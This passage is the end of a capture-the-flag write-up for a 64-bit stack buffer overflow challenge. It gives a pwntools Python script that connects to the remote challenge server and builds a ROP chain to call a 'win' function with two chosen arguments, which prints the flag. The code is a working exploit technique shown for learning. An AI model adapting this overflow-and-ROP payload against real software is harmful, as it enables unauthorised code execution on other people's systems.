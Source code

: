 7. Fill `R15` with something (doesn't matter what)
8. Fill the return address of the second gadget with the address of `win`

`win` will read the arguments it needs from `RDI` and `RSI` and it will print out the flag. Easiest way to put all of this together is with pwntools and a simple python script:
```python
from pwn import *

# f = process('./sbo64')
f = remote('sbo02.westus2.azurecontainer.io', 8080)

gadget1 = p64(0x0000000000401373)  # pop rdi ; ret
gadget2 = p64(0x0000000000401371)  # pop rsi ; pop r15 ; ret
win_addr = p64(0x401216)
arg1 = p64(0x1337c0d3)
arg2 = p64(0xacc01ade)

payload = b''
payload += b'A' * 56 # fill buffer and offset
payload += gadget1   # returns into our first gadget which pops RDI
payload += arg1      # first argument
payload += gadget2   # returns into our second gadget which pops RSI
payload += arg2      # second argument
payload += b'B' * 8  # fill R15 with something
payload += win_addr  # fill RIP with win address

payload = (b'A' * 56) + gadget1 + arg1 + gadget2 + arg2 + b'B' * 8 + win_addr

f.recvline()
f.sendline(payload)
print(f.recvall())
```
